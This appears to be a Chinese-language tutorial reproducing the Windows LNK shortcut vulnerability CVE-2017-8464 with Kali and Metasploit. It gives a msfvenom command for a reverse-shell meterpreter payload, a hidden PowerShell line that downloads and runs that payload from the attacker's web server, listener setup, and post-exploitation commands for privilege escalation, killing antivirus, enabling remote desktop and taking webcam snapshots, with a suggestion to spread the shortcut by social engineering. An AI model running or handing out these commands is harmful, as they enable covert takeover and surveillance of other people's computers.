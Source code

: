 # 一、 什么是 CVE-2017-8464：

说明：

2017年6月13日，微软官方发布编号为CVE-2017-8464的漏洞公告，官方介绍Windows系统在**解析快捷方式**时存在**远程执行任意代码**的高危漏洞，黑客可以通过U盘、网络共享等途径触发漏洞，完全控制用户系统，安全风险高危

传播的载体一般是LNK ，**LNK**是windows系统内应用程序**快捷方式**文件的文件**类型后缀名**。

危害：

被攻击机插入存在攻击lnk的U盘后会反弹shell，哪怕是被隔离的内网，也可以在不上网的情况下被攻击。

# 二、环境准备：

1 可复现的操作系统版本：

* Microsoft Windows 10 Version 1607 for 32-bit Systems
* Microsoft Windows 10 Version 1607 for x64-based Systems
* Microsoft Windows 10 for 32-bit Systems
* Microsoft Windows 10 for x64-based Systems
* Microsoft Windows 10 version 1511 for 32-bit Systems
* Microsoft Windows 10 version 1511 for x64-based Systems
* Microsoft Windows 10 version 1703 for 32-bit Systems
* Microsoft Windows 10 version 1703 for x64-based Systems
* Microsoft Windows 7 for 32-bit Systems SP1
* Microsoft Windows 7 for x64-based Systems SP1
* Microsoft Windows 8.1 for 32-bit Systems
* Microsoft Windows 8.1 for x64-based Systems
* Microsoft Windows RT 8.1

2 可复现的服务器系统版本：

* Microsoft Windows Server 2008 R2 for Itanium-based Systems SP1
* Microsoft Windows Server 2008 R2 for x64-based Systems SP1
* Microsoft Windows Server 2008 for 32-bit Systems SP2
* Microsoft Windows Server 2008 for Itanium-based Systems SP2
* Microsoft Windows Server 2008 for x64-based Systems SP2
* Microsoft Windows Server 2012
* Microsoft Windows Server 2012 R2
* Microsoft Windows Server 2016

3 kali操作系统

# **三、利用原理** ：

创建恶意快捷方式，包含恶意执行脚本，点击恶意快捷方式，导致本机中病毒，并且被远控。

# 四、实战利用

启动MSF

终端内输入：`msfconsole`

开始利用：

#### 1、使用MSF创建一个后门

msf内输入：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.70.3 lport=4456 -f psh-reflection>/var/www/html/link.ps1
```



#### 2、在kali下开启apache2

终端内输入：`service apache2 start`

#### 3、通过社会学进行快捷方式传播

```
powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.70.3/link.ps1');test.ps1"
```

![1641972171811](https://img.gyxnb.top/img/1641972171811.png) 

![1641972183309](https://img.gyxnb.top/img/1641972183309.png)

#### 4 回到MSF终端配置监听

msf内输入：  

`use exploit/multi/handler`

#### 5 配置payload

`set payload windows/x64/meterpreter/reverse_tcp`

![1641972198597](https://img.gyxnb.top/img/1641972198597.png)

msf中输入 ： `show options`   配置payload

![1641972211876](https://img.gyxnb.top/img/1641972211876.png)

设置 LHOST  和  LPORT

maf中输入：

 `set lhost 192.168.70.3` 设置 LHOST

`set lport 4456` 设置 LPORT

![1641972223277](https://img.gyxnb.top/img/1641972223277.png)

最后在 输入 `show options` 查看配置是否生效

![1641972233527](https://img.gyxnb.top/img/1641972233527.png)

#### 6、执行监听

msf中输入 ： `run` 或者  `exploit`

![1641972244295](https://img.gyxnb.top/img/1641972244295.png)

进入靶机**执行**我们在靶机上创建的**快捷方式**

![1641972183309](https://img.gyxnb.top/img/1641972183309.png)

稍等片刻获取到meterpreter

![1641972268406](https://img.gyxnb.top/img/1641972268406.png)

# 五、后渗透

1、通过快捷方式执行程序

meterpreter中输入  shell

![1641972283719](https://img.gyxnb.top/img/1641972283719.png)

发现shell显示有**乱码**

linux和windows显示编码不一样。

**修改显示编码**，shell内输入  `chcp 65001`

![1641972295944](https://img.gyxnb.top/img/1641972295944.png)

然后进入desktop目录（这个是win的桌面）

根据实际情况拼路径

shell 里输入：`cd c:/users/mb/desktop`

查看当前目录文件：`dir`

![1641972307789](https://img.gyxnb.top/img/1641972307789.png)

2 更多操作

1. 查看进程：ps

2. 查看当前进程号：getpid

3. 查看系统信息：sysinfo

4. 查看目标机是否为虚拟机：run post/windows/gather/checkvm

5. 查看完整网络设置：route

6. 查看当前权限：getuid

7. 自动提权：getsystem

8. 关闭杀毒软件：run post/windows/manage/killav

9. 启动远程桌面协议：run post/windows/manage/enable_rdp

10. 列举当前登录的用户：

    run post/windows/gather/enum_logged_on_users

11. 查看当前应用程序：run post/windows/gather/enum_applications

12. 抓取目标机的屏幕截图：load espia ； screengrab

13. 抓取摄像头的照片：webcam_snap

14. 查看当前处于目标机的那个目录：pwd

15. 查看当前目录：getlwd